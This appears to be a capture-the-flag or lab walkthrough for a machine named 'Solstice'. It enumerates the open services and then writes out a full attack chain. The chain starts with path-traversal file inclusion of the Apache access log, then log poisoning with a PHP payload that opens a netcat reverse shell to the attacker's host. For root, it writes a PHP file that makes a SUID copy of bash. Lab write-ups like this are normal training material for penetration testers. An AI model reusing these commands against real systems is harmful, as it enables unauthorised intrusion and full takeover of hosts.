

# Solstice

**IP Address:** 192.168.76.72

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 21    | ftp      | pyftpdlib 1.5.6 |
| 22    | ssh      | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) |
| 25    | smtp     | Exim smtpd |
| 80    | http     | Apache httpd 2.4.38 ((Debian)) |
| 2121  | ftp      | pyftpdlib 1.5.6 | 
| 3128  | http-proxy | http proxy 4.6 |
| 8593  | http     | PHP cli server 5.5 or later (PHP 7.3.14-1) | 
| 54787 | http     | PHP cli server 5.5 or later (PHP 7.3.14-1)
| 62524 | ftp      | FreeFloat ftpd 1.00 | 
## Exploitation
### Exploit Details (LFI)
* **Name** - Local File Injection (Apache2 access log)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

The webserver on port 8593 has a LFI and can read the log file of the Apache2 server running on port 80. First we confirm that the LFI exists. Then we poison the logs with the payload. Then the final curl command triggers the payload. 

Commands
```bash
curl "http://192.168.76.72:8593/index.php?book=../../../../../../../../var/log/apache2/access.log"
echo "GET <?php system('nc -e /bin/bash $lhost $lport'); ?> HTTP/1.1" | nc $ip 80
curl "http://192.168.76.72:8593/index.php?book=../../../../../../../../var/log/apache2/access.log"
python -c 'import pty;pty.spawn("/bin/bash")'
whoami
cat local.txt
```




## Privilege Escalation
### Exploit Details (Service Permissions (Web Server))
* **Name** - Service Permissions (Web Server)
* **CVE** - N/A
* **Module** - N/A
* **Disclosed** - N/A
* **References**
  * N/A

Commands
```bash
echo "<?php system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash'); ?>" > /var/tmp/sv/index.php
curl localhost:57
/tmp/rootbash -p
whoami
cat /root/proof.txt
```

